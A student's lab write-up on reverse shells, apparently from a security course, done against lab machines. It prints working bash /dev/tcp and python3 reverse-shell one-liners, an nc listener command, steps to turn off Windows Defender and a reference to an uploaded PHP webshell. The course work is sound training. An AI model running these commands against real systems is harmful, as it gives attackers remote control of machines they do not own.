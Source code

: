 # Lab 8.2 - Reverse Shells

💡A reverse shell occurs when we convince the target to connect to the attacker. This vastly simplifies command and control because firewall egress rules are nearly always more permissive than ingress rules. Even so, Windows 10 will present us with a problem.
In the spirit of living off the land, we will spend some time using target native tools (as opposed to uploading or installing nc on the target) to create a command and control channel between the target and kali. The "target" is not actually a pen testing target but just a generic Rocky 8.5 Linux server that we can practice on. Some exercises will leverage our previously exploited systems



## Bash Reverse Shell on Linux

1. Login to sec335-rocky(10.0.17.200) from kali using ssh and your cyber.local credentials.

   `ssh hasan.hashim@cyber@10.0.17.200`

   ![image-20221105233819338](./images/6.png)

   

2. Determine your DHCP address for your kali vm's eth0 (not wg0)

   `ifconfig`

   ![image-20221105234244221](./images/7.png)

3. On Kali, Create a nc listener on 4449/tcp

   `nc -nlvp 4449`

   ![image-20221105234331140](./images/8.png)

4. On Rocky Use a native bash reverse shell to connect back to your listener

   I used the following command to send back connection to our nc:

   `/bin/bash -i >& /dev/tcp/10.0.17.119/4449 0>&1`

   ![image-20221105234838146](./images/9.png)

   ![image-20221105234957003](./images/10.png)

5. Interact with sec335-rocky over your kali nc session.

![image-20221105235235616](./images/11.png)



## Deliverable 1. Run wireshark, create a capture filter on 4449/tcp and capture a command or two entered through the nc session. Provide a screenshot showing the followed tcp stream, similar to the screenshot below.

![image-20221105235741118](./images/12.png)



## Deliverable 2. Try this out on Pippen by leveraging an uploaded webshell or reverse shell on pippen to run a similar command to connect back to a listener. You may need to upload a small shell script to make this happen, particularly if you are using the simple-backdoor.php script. Provide a screenshot similar to the one below that shows you invoking the reverse shell on the target via curl or your web browser and catching the connection on your kali box.

![image-20221106002838435](./images/13.png)



![image-20221106010306299](./images/16.png)

![image-20221106010209947](./images/14.png)

![image-20221106010239928](./images/15.png)



# Windows Powershell Reverse Shell

References: https://book.hacktricks.xyz/shells/shells/windows

The following powershell code is run via cmd.exe. Change ATTACKERIP and ATTACKERPORT to the eth0 IP on kali and port you assigned to a nc listener.

![image-20221106014749383](./images/19.png)

Before we start play with code we need to turn off windows defender:

Search for "Virus & threat protection" ----> go to "manage settings" -----> and switch off the "Real-time protection is ..."

![image-20221106013249985](./images/22.png)

![image-20221106013433200](./images/23.png)

## Deliverable 3. Access your windows system on SEC335-WAN via remmina (so that you can copy paste). Provide a screenshot similar to the one below that shows the unsuccessful execution of powershell via cmd.exe followed by the successful reverse shell after you figure out how to turn off Windows Defender.

First I took the PowerShell script and then I changed the ip and the port.

![image-20221106014303118](./images/17.png)

And then I checked my kali box and I had connection:

![image-20221106014553326](./images/18.png)





## Deliverable 4. Hit the internet, see if you can create a python2,3 or php reverse shell on any of the linux targets. Provide a screenshot similar to the one below as well as the full text of the command used and the results of the id command invoked on the rocky through the reverse shell. 

Python:

Reference: https://pentesting.one2bla.me/payloads/payloads

 `python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.17.119",4449));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'`

![image-20221106012703108](./images/21.png)

![image-20221106012108759](./images/20.png)



## Reflections: 

This lab was fun and interesting. I had some hard time when I tried to create a reverse shell using PHP, looks like it is not installed on hasan.hashim@cyber@10.0.17.200 Linux and I don't root access to install it. But at the end I used Python.









